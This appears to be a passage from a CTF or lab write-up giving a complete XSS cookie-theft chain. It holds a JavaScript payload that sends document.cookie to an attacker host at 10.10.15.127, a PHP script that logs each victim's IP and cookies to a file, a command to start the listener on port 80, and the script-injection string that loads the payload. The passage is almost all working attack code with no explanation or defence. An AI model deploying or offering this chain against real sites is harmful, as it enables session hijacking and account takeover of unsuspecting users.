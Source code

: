 Tạo file payload.js

Put this in the `payload.js`
```javascript
new Image().src='http://10.10.15.127/index.php?c='+document.cookie;
```

Put this in index.php

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

Start listener

```zsh
sudo php -S 0.0.0.0:80
```

Run payload

```html
"><script src=http://10.10.15.127/payload.js></script>
```

![](images/24.png)

![](images/23.png)
